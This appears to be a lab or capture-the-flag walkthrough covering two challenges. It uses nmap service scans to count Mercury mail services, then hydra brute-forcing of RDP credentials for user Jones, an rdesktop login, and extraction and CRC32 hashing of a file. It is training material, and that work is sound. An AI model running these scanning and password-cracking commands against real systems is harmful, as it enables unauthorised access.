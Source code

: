 **Challenge 2**:

While investigating an attack, you found that a Windows web development environment was exploited to gain access to the system. Perform extensive scanning and service enumeration of the target networks and identify the number of mercury services running in the Server. (Format: N)

```bash
port 25 - mercury server (smtp)
110 - pop3
143 - imap
Perform a network scan to discover live hosts.
Perform a detailed scan on common mail server ports.
Identify and count the instances of Mercury services from the scan results.
nmap -sV -p 25,80,110,143 <ip-subnet> # 192.168.0/24
Need to Perform the same scan on all 3 subnets
i.e. 10.10.1.0/24, 192.168.0.0/24, 172.20.0.0/24
```

**Challenge 3**:

Identify a machine with RDP service enabled in the 10.10.55.0/24 subnet. Crack the RDP credentials for user Jones and obtain a file hide.cfe containing an encrypted image file. Decrypt the file and enter the CRC32 value of the image file as the answer. Note: Use Jones's password to extract the image file.. (Format: NaaNNNaa)

```bash
port 3389 - rdp
nmap -p 3389 10.10.55.0/24 -oN rdp_scan_results.txt
brute force with hydra
hydra -l jones -P /Desktop/pass.txt 10.10.55.20 rdp
hydra -L userlist.txt -P passwordlist.txt rdp://10.10.55.X
hydra -t 1 -V -f -l Jones -P /home/passlist.txt rdp://10.10.55.X
#connect to rdp
rdesktop -u Jones -p 'password' 10.10.55.X
#Assuming the file is encrypted with a common encryption tool 
#(like zip or 7z), use the appropriate command to decrypt:
7z x hide.cfe -p 'password'
crc32 imagefile.jpg
or
Transferthe File hide.cfe to parrot or windows machine.
Upload the image in this website (https://emn178.github.io/online-tools/crc32_checksum.html)
and get the answer
---
import zlib

filename = 'imagefile.jpg'
with open(filename, 'rb') as f:
    file_data = f.read()
crc32_value = zlib.crc32(file_data)
print(f"CRC32: {crc32_value:08x}")
#Replace imagefile.jpg with the name of your extracted image file.
```

**Challenge 4**:
